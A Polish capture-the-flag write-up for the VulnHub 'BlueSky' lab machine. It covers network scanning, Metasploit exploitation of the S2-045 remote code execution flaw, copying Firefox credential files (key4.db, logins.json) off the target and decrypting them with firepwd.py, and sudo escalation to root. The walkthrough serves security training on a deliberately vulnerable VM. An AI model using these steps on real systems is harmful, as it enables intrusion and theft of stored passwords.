


# **CTF - BlueSky**

**Autor**: adi7312

**Poziom trudności**: łatwy

**Link do maszynki**: [BlueSky](https://www.vulnhub.com/entry/bluesky-1,623/)

## **Skanowanie sieci**

W celu poznania adresu IP podatnej maszyny wpisujemy polecenie:

    netdiscover -r 192.168.138.0/24

Adres IP to 192.168.138.137

## **Skanowanie portów, usług i systemu operacyjnego**

W celu przeprowadzenia skanowania wpisujemy poniższe polecenie

    nmap -sV -O -Pn 192.168.138.137

Host ma 2 otwarte porty 22 (ssh) i 8080 (http) i działa na systemie operacyjnym Linux w wersji 3.2-4.9. Będziemy przyglądać się portowi 8080, po wejściu na stronę http://192.168.138.137:8080/ nie zobaczymy nic ciekawego. Po wygooglowaniu wersji Apache Tomcat dowiadujemy się że dana wersja jest dosyć podatna - między innymi na *Remote Code Execution*. Przeprowadziłem dodatkowo skanowanie OpenVasem i dokładny kod podatności związanej z Apache Tomact to S2-045.

## **Faza eksploitacji (metasploit)**

Uruchamiamy *metasploit* i wyszkujemy nasza podatność:

    search S2-045

Wybieramy oczywiście tę jedyną opcję -> używamy polecenia `use 0`. Następnie sprawdzamy `options` i widzimy że musimy podać jeszcze RHOSTS, czyli IP atakowanej maszyny, czyli wpisujemy `set RHOSTS 192.168.138.137`. Uruchamiamy naszego exploita poleceniem `run` lub `exploit`. Otrzymaliśmy sesję *meterpretera*, jednak na wiele on nam sie nie przyda więc wywołujemy powłokę *shell* poleceniem `shell`. Taka opcja też raczej średnio nam odpowiada, więc wywołamy jeszcze *bash'a* robimy to poleceniem:

    /bin/bash -i

## **Faza posteksploitacyjna + eskalacja uprawnień**

Jesteśmy teraz na zaatakowanej maszynie! Po wpisaniu poleceń `ls` możemy zobaczyć plik *user.txt* z pierwszą flagą. Teraz pozostało jedynie zdobyć ostatnią flagę *roota*. Wypisujemy sobie co możemy zrobić przy pomocy *sudo* jednak nic nam nie pokazuje się, więc szukamy dalej. Po wpisaniu polecenia `ls -la` widzimy ciekawy katalog *.mozilla* wchodzimy w niego, po przeszukaniu go znajdujemy pliki *key4.db*, *logins.json*. Dzięki tym plikom będzie mogli poznać hasło naszego użytkownika, pobieramy więc oba pliki na naszą maszyną atakującą, robimy to w następujący sposób: na podatnej maszynie uruchamiamy przy pomocy pythona prosty serwer http, wpisujemy polecenie:

    python3 -m http.server

Na maszynie atakującej wpisujemy polecenia:

    wget http://192.168.138.137:8000/key4.db
    wget http://192.168.138.137:8000/logins.json

Następnie na maszynie atakującej będziemy korzystać z narzędzia *firepwd.py* możemy je pobrać z GitHuba ważne jest aby zainstalować również wymagane moduły - więcej informacji można znaleźć w repozytorium. Teraz w tym samym miejscu gdzie są pliki key4.db, logins.json oraz firepwd.py uruchamiamy polecenie:

    python3 firepwd.py

Teraz łączymy się przez ssh z naszym podatnym hostem oraz podajemy powyższe hasło:

    ssh minhtuan@192.168.138.137

Jesteśmy teraz na podantym hoście, wpisujemy polecenie:

    sudo -l

Okazuje się że każde polecenie możemy wykonać przy pomocy *sudo*, aby zdobyć *roota* wpisujemy po prostu:

    sudo su

Otrzymujemy *roota*, wpisujemy `cd /root; ls` i widzimy że znajduje się tam ostatnia flaga - poraz ostatni wpisujemy polecenie `cat root.txt`.

